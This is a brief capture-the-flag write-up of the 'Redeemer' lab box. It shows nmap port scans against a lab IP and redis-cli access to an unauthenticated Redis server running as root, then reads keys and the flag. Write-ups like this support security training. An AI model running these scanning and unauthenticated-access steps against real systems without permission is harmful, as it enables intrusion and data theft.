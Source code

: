 # Box 
Name: Redeemer
ID:4
Difficulty: Easy

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `redis-cli`
  
## 🧠 Recon
Nmap Scan:
```bash
nmap -p- -sV 10.129.121.168 
nmap -p- -T4 10.129.121.168 (this one worked because I made the timing more aggressive)
```
## 🔍 Enumeration
Found an open port **6379/tcp**, running **redis** service.

## 💥 Exploitation
1. Installed redis-cli
2 Connected using `redis-cli` (no authentication needed):
  ```bash
  redis-cli -h 10.129.121.168
```
3. Ran basic commands:
info – server details
keys * – list all keys
get flag 

## 🔐 Privilege Escalation
Not required -redis ran as root

## 🧼 Cleanup & Lessons
- Not required
- **Key takeaways**: 
- always check if a service runs as root, no authentication required
- misconfigs are an easy win

